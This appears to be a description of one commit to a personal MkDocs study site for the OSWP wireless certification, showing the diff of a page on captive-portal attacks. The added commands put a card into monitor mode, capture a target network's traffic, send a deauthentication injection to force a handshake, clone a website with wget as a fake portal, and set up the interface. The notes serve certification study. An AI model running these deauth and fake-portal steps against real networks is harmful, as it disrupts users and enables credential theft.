

Before and after one commit to johnlwhiteman/johnlwhiteman.github.io, an MkDocs documentation site: the page built from docs/certs/oswp/attacks/captive-ports/captive-ports.md, in a window 1280 px wide and 1168 px high. Shown: the whole window at 89% size. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; a script that is not in the unit is left out.

Commit message:
cops
Signed-off-by: John L. Whiteman <>

````diff
--- a/docs/certs/oswp/attacks/captive-ports/captive-ports.md
+++ b/docs/certs/oswp/attacks/captive-ports/captive-ports.md
@@ -3,21 +3,19 @@
 
 ## Commands
 
+## Commands
+
+* Run [reconnaissance](../reconnaissance.md) first
+
+### Capture some data
+
 ```bash
 # Start monitor mode
 sudo airmon-ng start wlan0
 
-# Start monitoring for APs
-sudo airodump-ng wlan0mon
-
-# Find target and gather BSSID,CHANNEL,CLIENT,SSID info
-# Stop monitoring
-qq
-
-# Create and source config file described here
 # Start a screen session with a horizonal split screen
 
-# Restart monitoring but filtered with output saved to PCAP. Make sure CLIENT is found.
+# Start monitor mode but with filters and output saved to PCAP.
 sudo airodump-ng -c $CHANNEL --bssid $BSSID -w $TAG --output-format pcap wlan0mon
 
 # Do one deauth injection attack while still monitoring
@@ -26,8 +24,29 @@ sudo aireplay-ng -0 1 -a $BSSID -c $CLIENT wlan0mon
 # Wait for the four-way handshake to appear in airodump-ng window.
 # Stop airodump-ng when it appears
 qq
+```
+
+### Build the Captive Portal
+
+```bash
+
+# Install the dependencies to build our captive port website
+sudo apt-get install apache2 libapache2-mod-php
+
+# Use the premade one
+wget -r -l2 https://www.megacorpone.com
+```
+
+
+### Set up Network
+
+```bash
+
+sudo ip addr add 192.168.87.1/24 dev wlan0
+sudo ip link set wlan0 up
 
 ```
+
 
 ## References
 
````
Also changed, not shown: docs/certs/oswp/attacks/cracking/aircrack-ng.md (+1 -1 lines), docs/certs/oswp/attacks/cracking/cowpatty.md (+3 -4 lines), docs/certs/oswp/tools/if-ip-iw.md (+6 -1 lines), docs/certs/oswp/images/fourway-handshake.png (renamed from docs/certs/oswp/attacks/cracking/images/fourway-handshake.png).
